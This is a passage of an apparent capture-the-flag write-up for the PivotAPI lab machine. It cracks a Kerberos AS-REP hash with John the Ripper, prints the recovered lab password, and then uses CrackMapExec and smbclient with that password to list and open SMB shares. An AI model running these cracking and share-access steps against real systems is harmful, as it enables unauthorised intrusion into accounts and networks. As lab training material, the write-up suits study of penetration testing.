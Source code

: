 Using *John* to crack the hash of the user. 

```bash
Koarz.hsh -w=/usr/share/wordlists/rockyou.txt 
```
```bash
Using default input encoding: UTF-8  
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 \[MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x\])  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
Roper4155        ($krb5asrep$23$Kaorz@LICORDEBELLOTA)  
1g 0:00:00:07 DONE (2021-05-18 09:50) 0.1371g/s 1463Kp/s 1463Kc/s 1463KC/s Roybel01..Ronald8  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

We got our first user Kaorz : Roper4155

Get along of *CrackMapExec*
https://github.com/byt3bl33d3r/CrackMapExec

### SMB

We will now login into smb and see what we have access too. 

```bash
crackmapexec smb pivotapi.htb -u Kaorz -p Roper4155 --shares
```

```bash
SMB 10.10.10.240    445    PIVOTAPI \[\*\] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)  
SMB 10.10.10.240    445    PIVOTAPI \[+\] LicorDeBellota.htb\\Kaorz:Roper4155   
SMB 10.10.10.240    445    PIVOTAPI \[+\] Enumerated shares  
SMB 10.10.10.240    445    PIVOTAPI Share           Permissions     Remark  
SMB 10.10.10.240    445    PIVOTAPI \-----           -----------     ------  
SMB 10.10.10.240    445    PIVOTAPI ADMIN$                          Admin remota  
SMB 10.10.10.240    445    PIVOTAPI C$                              Recurso predeterminado  
SMB 10.10.10.240    445    PIVOTAPI IPC$            READ            IPC remota  
SMB 10.10.10.240    445    PIVOTAPI NETLOGON        READ            Recurso compartido del servidor de inicio de sesión   
SMB 10.10.10.240    445    PIVOTAPI SYSVOL          READ            Recurso compartido del servidor de inicio de sesión
```

We have access to three directory, let use *smbclient* to access the shares and see if we can find anything of interesting. 
#smbclient
```bash
smbclient //pivotapi.htb/SYSVOL -U kaorz%Roper4155
```


Looking under *DfsrPrivate\\scripts\\HelpDesk* we find some interresting files.
Two  emial messages files and exe files to restart the Oracle server. 
